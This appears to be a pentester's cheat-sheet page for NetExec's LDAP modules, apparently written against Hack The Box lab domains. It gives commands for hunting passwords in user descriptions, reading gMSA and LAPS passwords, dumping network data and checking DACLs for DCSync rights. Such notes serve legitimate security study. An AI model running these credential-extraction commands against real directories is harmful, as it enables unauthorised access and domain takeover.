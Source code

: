 ## LDAP

{% tabs %}
{% tab title="Enum" %}
Enumerate the description field of domain users ([`get-desc-users`](https://www.netexec.wiki/ldap-protocol/get-user-descriptions)):

```bash
# Enumerate all users
nxc ldap DC01 -u '' -p '' -M get-desc-users

# Filter for a target string
nxc ldap DC01 -u '' -p '' -M get-desc-users -o FILTER='string'

# Look for passwords
nxc ldap DC01 -u '' -p '' -M get-desc-users -o PASSWORDPOLICY=True MINLENGTH=8
```

Execute the `whoami` command for any domain user:

```
nxc ldap dc01 -u x7331 -p Pass123! -M whoami -o USER=x1337
```

Obtain the domain's SID:

```bash
nxc ldap DC01 -u x7331 -p Pass123! --get-sid
```
{% endtab %}

{% tab title="GMSA" %}
```bash
nxc ldap dc01.rebound.htb -u <user> -p <pass> -k --gmsa
```
{% endtab %}

{% tab title="Zone Transfer" %}
```bash
nxc ldap <target> -u <user> -p <pass> -M get-network -o ALL=true
```
{% endtab %}

{% tab title="LAPS" %}
```bash
nxc ldap <ip> -u <user> -p <pass> -M laps
```
{% endtab %}

{% tab title="DACL" %}
{% code overflow="wrap" %}
```bash
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET=<user> ACTION=read

# DCSync rights
nxc ldap <ip> -u <user> -p <pass> -M daclread -o TARGET_DN="DC=inlanefreight,DC=htb" ACTION=read RIGHTS=DCSync
```
{% endcode %}
{% endtab %}
{% endtabs %}

